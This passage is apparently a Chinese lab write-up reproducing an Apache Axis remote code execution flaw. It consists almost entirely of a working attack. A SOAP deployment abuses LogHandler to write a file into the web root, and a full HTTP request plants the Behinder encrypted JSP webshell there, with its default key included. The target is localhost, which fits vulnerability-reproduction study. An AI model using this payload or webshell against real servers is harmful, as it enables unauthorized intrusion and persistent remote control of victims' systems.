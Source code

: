 ```
  <soap:Body>
    <deployment
      xmlns="http://xml.apache.org/axis/wsdd/"
      xmlns:java="http://xml.apache.org/axis/wsdd/providers/java">
        <service name="randomAAA" provider="java:RPC">
<requestFlow>
            <handler type="java:org.apache.axis.handlers.LogHandler" >
                <parameter name="LogHandler.fileName" value="../webapps/ROOT/shell.jsp" />
                <parameter name="LogHandler.writeToConsole" value="false" />
            </handler>
        </requestFlow>
          <parameter name="className" value="java.util.Random" />
          <parameter name="allowedMethods" value="*" />
        </service>
    </deployment>
  </soap:Body>
</soap:Envelope>
```

![image-20220910115547702](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910115547702.png)

把冰蝎马写入文件内容 , 虽然影响是500 , 但是已经写进入了

```
POST /axis/services/RandomService HTTP/1.1
Host: 127.0.0.1:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 1157

<?xml version="1.0" encoding="utf-8"?>
        <soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xmlns:api="http://127.0.0.1/Integrics/Enswitch/API"
        xmlns:xsd="http://www.w3.org/2001/XMLSchema"
        xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
        <soapenv:Body>
        <api:main
        soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
            <api:in0><![CDATA[
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
]]>
            </api:in0>
        </api:main>
  </soapenv:Body>
</soapenv:Envelope>
```
